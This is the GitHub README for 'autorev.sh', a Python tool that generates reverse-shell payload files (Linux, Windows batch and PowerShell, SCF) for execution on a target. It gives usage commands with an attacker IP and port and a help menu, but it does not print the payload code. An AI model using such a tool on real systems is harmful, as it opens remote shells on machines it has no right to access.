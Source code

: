 <div align="center">
![alt text](https://github.com/root-tanishq/autorev.sh/raw/main/images/autorev_banner.png) 

# Autorev.sh

The Python Script will generate a (.) extension file with reverse shell codes then you can execute the script on the target [support windows and linux both]

# Usage

## Generating linux

```
python3 <path to autorev>/autorev.py -i 192.168.1.1 -p 443 -s 8000
```

![alt text](https://github.com/root-tanishq/autorev.sh/raw/main/images/autorev_lin.png)  

## Generating Windows bat

```
python3 <path to autorev>/autorev.py -i 192.168.1.1 -p 443 -s 8000 -f winc
```

![alt text](https://github.com/root-tanishq/autorev.sh/raw/main/images/autorev_winc.png)  

## Generating Windows ps1

```
python3 <path to autorev>/autorev.py -i 192.168.1.1 -p 443 -s 8000 -f winp
```

![alt text](https://github.com/root-tanishq/autorev.sh/raw/main/images/autorev_winp.png)

### Generating SCF

```
python3 autorev.sh -i <your-ip> -p <your-port> -o <scf-file-name> -f scf
```

![alt text](https://github.com/root-tanishq/autorev.sh/raw/main/images/autorev_scf.png) 

> All Usage commands will be also generated and print according to the given switches

## HELP Menu

```
-h,        --help   HELP   show this help message and exit
-i IPADDR, --ipaddr IPADDR LHOST Attacker IP address
-p PORT,   --port   PORT   LPORT Port to get reverse shell on [Default 9001]
-o OUT,    --out    OUT    Output File Name [Excluding (.)extension Extension][OPTIONAL]
-f FORMAT, --format FORMAT Define Format for generator [lin | win[c/p](c = cmd | p = powershell) | scf][Default=lin]
-s SERVER, --server SERVER Port to use for generating commands (http://[your-ip]:[PORT]) (Default 80)
```
